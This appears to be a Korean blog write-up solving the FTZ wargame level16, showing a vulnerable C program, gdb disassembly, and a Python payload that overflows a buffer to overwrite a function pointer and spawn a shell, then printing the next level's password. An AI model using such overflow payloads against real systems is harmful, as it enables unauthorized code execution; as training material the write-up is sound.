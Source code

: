 ```yaml
---
title: "[FTZ] level16 풀이"
categories:
  - ftz
tags:
  - FTZ
toc: true
toc_sticky: true
toc_label: "level16 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/ftz.png
---
```


💡 FTZ level16 풀이
{: .notice--warning}


# 문제

계정 : level16/about to cause mass

**hint**
```c
#include <stdio.h>

void shell() {
  setreuid(3097,3097);
  system("/bin/sh");
}

void printit() {
  printf("Hello there!\n");
}

main()
{ int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  call();
}
```

# 풀이
call 변수에 printit 함수의 주소가 들어있는데, 이를 덮어써서 shell()함수가 호출되도록 하면 쉘을 획득할 수 있습니다.

우선 gdb를 실행합니다.

```sh
[level16@ftz tmp]$ gdb -q attackme
(gdb) set disass intel
(gdb) disas main
Dump of assembler code for function main:
0x08048518 <main+0>:    push   ebp
0x08048519 <main+1>:    mov    ebp,esp
0x0804851b <main+3>:    sub    esp,0x38
0x0804851e <main+6>:    mov    DWORD PTR [ebp-16],0x8048500 //printit 함수를 저장하는 부분
0x08048525 <main+13>:   sub    esp,0x4
0x08048528 <main+16>:   push   ds:0x80496e8
0x0804852e <main+22>:   push   0x30
0x08048530 <main+24>:   lea    eax,[ebp-56] //buf의 위치
0x08048533 <main+27>:   push   eax
0x08048534 <main+28>:   call   0x8048384 <fgets>
0x08048539 <main+33>:   add    esp,0x10
0x0804853c <main+36>:   mov    eax,DWORD PTR [ebp-16]
0x0804853f <main+39>:   call   eax
0x08048541 <main+41>:   leave
0x08048542 <main+42>:   ret
End of assembler dump.

```

ebp-16위치에 call 변수가 들어있고 0x8048500주소를 넣고 있습니다.

그리고 ebp-56에 buf 변수가 위치하고 있습니다.

함수들의 주소부터 확인해 봅니다.

```sh
(gdb) b main
Breakpoint 1 at 0x804851e
(gdb) run
Starting program: /home/level16/tmp/attackme

Breakpoint 1, 0x0804851e in main ()
(gdb) p printit
$1 = {<text variable, no debug info>} 0x8048500 <printit>
(gdb) p shell
$2 = {<text variable, no debug info>} 0x80484d0 <shell>

```

확인 결과 printit 함수의 주소는 0x8048500이 맞고, shell 함수의 주소는 0x80484d0입니다. 

이제 bof 취약점으로 call 변수를 덮어써 줍니다.

buf 변수와 call 변수사이에 40바이트가 있으므로, 40바이트를 채운뒤 shell 변수를 넣어줍니다.

```sh
[level16@ftz level16]$ (python -c 'print("A"*40+"\xd0\x84\x04\x08")';cat) | ./attackme

id
uid=3097(level17) gid=3096(level16) groups=3096(level16)

my-pass
Level17 Password is "king poetic".
```

쉘을 획득했습니다.


